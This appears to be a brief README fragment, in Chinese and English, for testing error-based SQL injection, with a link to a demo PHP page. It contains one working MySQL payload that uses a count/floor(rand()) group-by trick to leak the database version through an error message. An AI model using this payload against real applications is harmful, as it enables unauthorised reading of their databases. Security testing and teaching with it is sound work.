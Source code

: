 ##SQL ERROR BASED
测试SQL语句报错注入
```
id=1 and (select 1 from(select count(*),concat(concat(concat(0x7b,version()),0x7d),floor(rand(0)*2))x from INFORMATION_SCHEMA.TABLES group by x)a)
```
测试[demo代码](SqlInjectDemo.php)
